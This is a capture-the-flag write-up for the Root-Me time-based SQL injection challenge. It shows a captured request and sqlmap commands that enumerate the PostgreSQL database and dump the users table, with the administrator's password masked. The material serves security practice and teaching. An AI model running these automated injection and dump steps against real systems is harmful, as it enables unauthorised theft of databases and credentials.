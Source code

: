 # SQL injection: time-based

[root-me challenge: SQL injection - Time based](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Time-based?lang=en): Retrieve administrator’s password.

----

`members.txt`:

```text
GET /web-serveur/ch40/?action=member&member=1* HTTP/1.1
Host: challenge01.root-me.org
...
Upgrade-Insecure-Requests: 1

```

```text
sqlmap -r members.txt --risk=3 --level=5 --batch --dbs
```

```text
URI parameter '#1*' is vulnerable.
the back-end DBMS is PostgreSQL
available databases [1]:
[*] public
```

```text
sqlmap -r members.txt --risk=3 --level=1 --batch --dbs -D public --tables
```

```text
Database: public
[1 table]
+-------+
| users |
+-------+
```

Dump:

```text
sqlmap -r members.txt --risk=3 --level=1 --batch --dbs -D public --dump
```

```text
+----+---------------------------+----------+---------------+----------+-----------+
| id | email                     | lastname | password      | username | firstname |
+----+---------------------------+----------+---------------+----------+-----------+
| 1  | ycam@sqlitimebased.com    | MAC      | xxxxxxxxxxxxx | admin    | Yann      |
+----+---------------------------+----------+---------------+----------+-----------+
```

## Resources

* [Time based blind SQL Injection using heavy queries](https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Time%20based%20blind%20SQL%20Injection%20using%20heavy%20queries.pdf)
* [SQLmap Cheatsheet and Examples](https://abrictosecurity.com/sqlmap-cheatsheet-and-examples/)
